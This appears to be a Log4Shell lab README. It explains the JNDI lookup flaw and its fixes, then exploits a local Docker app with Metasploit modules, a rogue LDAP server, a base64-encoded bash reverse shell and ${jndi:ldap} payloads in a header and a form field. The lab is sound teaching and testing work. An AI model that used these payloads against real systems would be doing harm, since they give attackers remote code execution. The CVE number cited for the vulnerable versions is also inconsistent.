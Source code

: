 
# Log4Shell lab

The _Log4Shell exploit_ targets a vulnerability in the Apache Log4j logging library, allowing remote code execution by manipulating log messages. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application via JNDI lookups.

Log4j uses Java Naming and Directory Interface (JNDI) to enable dynamic logging configuration based on resources located through naming and directory services. It allows log messages to include lookup patterns that can retrieve data from various sources, such as LDAP or DNS.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

The payload is a Java gadget chain that leverages a Java deserialisation vulnerability. The gadget chain involves invoking methods on serialised objects that execute arbitrary code upon deserialisation, leveraging existing classes in the application's classpath to bypass security checks and gain remote code execution. For more information on choosing which gadget to use to effectively gain code execution on the victim, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

## Vulnerability fix

The vulnerability is addressed in Log4j version 2.17.1 and later. As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44832), Apache Log4j (`log4j-core`) versions 2.0-beta9 to 2.14.1 are vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_ such as Spring Boot.

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Lab

Package the vulnerable application with Gradle and run it in a Docker container.

```bash
tom@MacBook:~/workspace/security/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.

![](img/login.png)

The logs show that the lookup string is resolved.

![](img/verify.png)

## Finding the vulnerability

Use the Metasploit module `scanner/http/log4shell_scanner`. The scanner finds the vulnerable `User-Agent` header from the POC application.

```bash
msf6> use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS localhost
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.5.2
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVPORT 1389
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[+] ::1:8080              - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
```

## Automated exploitation with Metasploit

Metasploit has a couple of modules for automated exploitation. For header injection we can use the module `exploit/multi/http/log4shell_header_injection`.

To work on the lab environment, we use the following options. Replace the LHOST and SRVHOST variables with the Docker host IP. The lab environment uses Java 11 so we will use the Java gadget "BeanFactory".

```bash
set HTTP_HEADER User-Agent
set RHOSTS 127.0.0.1
set RPORT 8080
set LHOST 192.168.5.2
set LPORT 443
set SRVHOST 192.168.5.2
set SRVPORT 1389
set target 2
set JAVA_GADGET_CHAIN BeanFactory
```

Run the exploit and we get shell access.

```bash
msf6 exploit(multi/http/log4shell_header_injection) > exploit

[*] Started reverse TCP handler on 192.168.5.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 127.0.0.1:8080        - Log4Shell found via / (header: User-Agent) (os: Linux 6.6.12-linuxkit unknown, architecture: aarch64-64) (java: Oracle Corporation_11.0.16)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[+] The target is vulnerable.
[*] Command shell session 3 opened (192.168.5.2:4444 -> 192.168.5.5:40058) at 2024-02-17 16:17:43 +0100
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
```

### Manual exploit

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
POST /login HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/

username=log4shell
```

We get a shell connection into the Docker container.

![](img/revshell.png)

## Ethical consideration and responsible use

This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

---

Resources:
- https://github.com/pentesterland/Log4Shell
- https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4
- https://github.com/Cyb3rWard0g/log4jshell-lab
- https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
